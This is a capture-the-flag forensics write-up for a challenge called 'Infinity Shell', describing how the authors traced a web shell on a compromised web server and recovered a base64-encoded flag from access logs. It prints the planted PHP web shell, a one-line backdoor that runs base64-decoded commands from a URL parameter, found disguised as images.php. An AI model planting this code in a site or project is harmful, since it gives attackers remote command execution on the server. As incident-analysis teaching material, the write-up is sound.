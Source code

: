 # Infinity Shell
## Challenge
Cipher’s legion of bots has exploited a known vulnerability in our web application, leaving behind a dangerous web shell implant. Investigate the breach and trace the attacker's footsteps!

## Solution
It is said that the cipher's legion of bots left a dangerous web shell implant. Exploring the /var/www/html folder we found a shoulder containing the web application mentioned in the statement. 

![image](https://github.com/user-attachments/assets/f3b95e61-b223-4f6b-88c0-3170c11764ce)

This site, probably contained some kind of field to insert files without checking them. Probably, cipher abused this... We checked the img folder and found a suspicious file called images.php with following code:

```php
<?php system(base64_decode($_GET['query'])); ?>
```

This file is wierd. First is using system() function and is in the middle of the images. At the time we were clueless about this file, probably was being used by the site to get images, but using base64_decode was strange.

After a bit of investigation, we found nothing. If the attacker uploaded a malicious file, he probably used it as a web shell. So we checked the logs. After a bit of searching we found the following:

![image](https://github.com/user-attachments/assets/0ee2de01-4501-4eec-9390-ba07d51fe23c)

We opened the last file in hope for access logs by this actors. And we found something!

![Untitled design(1)](https://github.com/user-attachments/assets/2f05ab11-a24f-4efc-828a-7c37973e26cd)

The line 81 looked promising. A string encoded in base64.

```base64
ZWNoby---------------------------Gx9Jwo=
```

Decoding it we can obtain the flag!

Note: This could be done using cat and then filtering the entries and was much easier.
